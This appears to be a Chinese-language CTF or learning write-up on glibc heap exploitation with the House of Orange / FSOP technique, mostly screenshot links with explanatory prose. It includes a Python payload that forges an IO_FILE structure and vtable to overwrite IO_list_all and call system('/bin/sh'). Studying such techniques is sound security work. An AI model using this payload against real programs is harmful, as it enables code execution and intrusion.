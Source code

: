    ![image-20240812113046357](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408121130466.png)

   ![image-20240812112857981](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408121128130.png)

2. 修改**unsorted bin的size**值，使之后续能**进入到small bin0x60**，并且**在该unsorted bin中伪造好file结构**和**unsorted bin attack**，最后能覆盖掉IO_list_all指针，成功挟持到FILE，后面会解释为什么这么伪造：

   ```py
   # unsorted bin attack 覆盖IO_list_all指针
   # 构造IO_file
   payload = p64(0)*2
   # file头
   payload+= b"/bin/sh\x00" + p64(0x60)
   # unsorted bin attack
   payload+= p64(0) + p64(IO_list_all_addr-0x10)
   # _IO_write_ptr > _IO_write_base
   payload+= p64(0) + p64(1)
   #_mode=0
   payload = payload.ljust(0xe8,b"\x00")
   # 伪造vtable指针，因为相距FILE头的偏移是0xe8，所以前面要填满0xe8
   payload+= p64(heap_addr + 0x140) #指向后面的虚表
   # 虚表
   payload+= p64(0)*3 + p64(system_addr)
   edit(payload)
   ```

   伪造的IO_FILE：

   注意再libc_2.23之前IO_list_all是可以修改的，有写权限：

   ![image-20240812165830493](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408121658781.png)

   ![image-20240812161200441](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408121612691.png)

   再申请chunk时：先遍历一遍unsorted bin，查看是否有相应大小的chunk，并将对应bin放入small bin和large bin：

   ![image-20240812161541465](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408121615721.png)

   main_arena中的情况：

   ![image-20240812162742131](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408121627390.png)

   后续由于前面unsorted bin的fd和bk被修改，导致malloc时出错，会**调用malloc_printerr 打印错误**信息，就会使用前面被覆盖的IO_list_all。

   ### 介绍一条 IO_FILE 链：

   malloc中unsorted bin出错会调用malloc_printerr 输出错误：

   ![image-20240813114500591](C:\Users\BKBQWQ\AppData\Roaming\Typora\typora-user-images\image-20240813114500591.png)

   malloc_printerr 函数：

   ![image-20240812174218150](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408121742266.png)
